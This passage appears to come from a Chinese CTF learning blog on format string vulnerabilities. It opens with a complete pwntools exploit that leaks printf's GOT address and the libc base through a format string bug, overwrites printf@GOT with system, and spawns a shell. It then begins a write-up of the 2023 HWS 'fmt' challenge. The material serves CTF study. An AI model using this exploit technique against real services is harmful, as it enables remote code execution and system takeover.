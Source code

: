 ```plain


p = remote('127.0.0.1',10002)
#elf=ELF('./dump_bin')
libc=ELF('/lib/i386-linux-gnu/libc.so.6')
#p=process('./dump_bin')

printf_plt=0x08048490
name='aaaa'
p.sendline(name)
p.recv()

payload=b'%9$saaaa'+p32(printf_plt)
p.sendline(payload)
p.recvuntil('right:')
p.recvuntil('\xff\x25')
printf_got=u32(p.recv(4))
leak('printf_got',printf_got)

p.recv()

payload1=b'%9$saaaa'+p32(printf_got)
p.sendline(payload1)
p.recvuntil('right:')
printf=u32(p.recv(4))
leak('printf',printf)

libcbase=printf-libc.symbols['printf']
leak('libcbase',libcbase)

system=libcbase+libc.symbols['system']
leak('system',system)


shell=fmtstr_payload(7, {printf_got: system})
p.sendline(shell)
p.sendline('/bin/sh\00')
p.interactive()
```

#### 2023HWS fmt

在学习完格式化字符串之后，尝试下去打了 HWS 的 fmt 这道题，比赛时还差一点打出来，赛后在其他师傅的指导下打出来了

**file&checksec**

[![](assets/1701612281-96be9f4cda8f662dc6988635da43870d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224306-67f894a4-2579-1.png)
